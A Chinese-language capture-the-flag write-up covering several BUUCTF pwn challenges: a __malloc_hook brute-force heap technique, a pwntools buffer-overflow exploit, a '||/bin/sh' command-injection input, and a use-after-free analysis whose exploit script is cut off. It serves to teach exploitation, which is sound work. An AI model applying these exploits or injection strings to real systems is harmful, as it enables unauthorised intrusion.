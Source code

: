 **方法3：爆破修改__malloc_hook**
在方法一的fastbin attack之后，我们通过释放一个chunk到unsorted bin中能够在堆中写入main_arena+88的地址。通过分析可知__malloc_hook的地址应为main_arena - 0x10处。如果需要在这里分配一个fastbin，需要写入main_arena - 0x23来错位分配（起始地址即为下图中标出的地方），但这样需要修改最低两个字节的值，因此倒数第二低字节的高4位需要爆破，成功率为1/16。分配到这里的地址之后，把one_gadget写入到hook中调用malloc即可。

![](https://img-blog.csdnimg.cn/76c809f478a648e7950c095358d09319.png)
但是这种方法在本题中不太可行。因为本题不能读取任何数据，只能通过修改unsorted bin的fd和bk指针分配，而unsorted bin的检查比fastbin多得多，无法通过检查。如果能够将fastbin chunk的fd中写入此处的地址应该是没有问题的，但问题就在于我们无法获取其地址，只能通过修改低字节的方式修改它。

后来想想，如果真的要将fastbin chunk中的fd指针修改为main arena的地址也不是不行。方法：首先通过前两种方法获取到对heaparray的写权限，然后把一个chunk释放两次，第一次释放在fastbin中，第二次释放在unsorted bin中，两次释放之间通过堆溢出修改chunk的大小（改大）使第二次能被释放到unsorted bin中。

不过按照上面的方法就显得有点多此一举了。其思想与方法一是相同的，都是错位分配。因此这里就不再进行赘述了。感兴趣的读者可以自己实现一下。
# buu040-wustctf2020_getshell
```python
from pwn import *
# io = process('./pwn')
io = remote('node4.buuoj.cn', 29015)
io.sendline(cyclic(24) + p32(0xdeadbeef) + p32(0x804851B))
io.interactive()
```
# buu041-bjdctf_2020_router
nc直接连，输入1然后输入``||/bin/sh``即可。这是linux命令行特性，要知道``||``的含义：上一条命令执行失败之后执行下一条命令，远程没有ping，因此直接执行/bin/sh。
# buu042-hitcontraining_uaf
经典菜单题，从题目标题就能看出来是一道考UAF的题。在del_note函数中果然出现了UAF漏洞：
```c
if ( notelist[index] )
  {
    free(notelist[index]->strbuf);
    free(notelist[index]);		// 没有清空指针
    puts("Success");
  }
```
通过分析add_note函数可知，最多分配5个chunk，每一个chunk有一个函数指针和一个存放字符串的buffer，函数指针固定指向print_note_content函数。不难想到通过UAF可以将函数指针修改为后门函数magic：
- 首先分配两个chunk，字符串chunk的大小大于0x20
- 释放这两个chunk
- 分配第三个chunk，字符串chunk大小为0x20，这样第三个chunk的字符串chunk和第一个chunk位置相同，修改其函数指针调用即可。
```python
from pwn import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 25067)

def add(size, content):
	io.sendlineafter(b'Your choice :', b'1')
	io.sendlineafter(b'Note size :', str(size).encode())
	io.sendlineafter(b'Content :', content)

def delete(index):
	io.sendlineafter(b'Your choice :', b'2')
	io.sendlineafter(b'Index :', str(index).encode())

def printc(index):
	io.sendlineafter(b'Your choice :', b'3')
	io.sendlineafter(b'Index :', str(index).encode())

add(0x18, b'colin')
add(0x18, b'colin')
```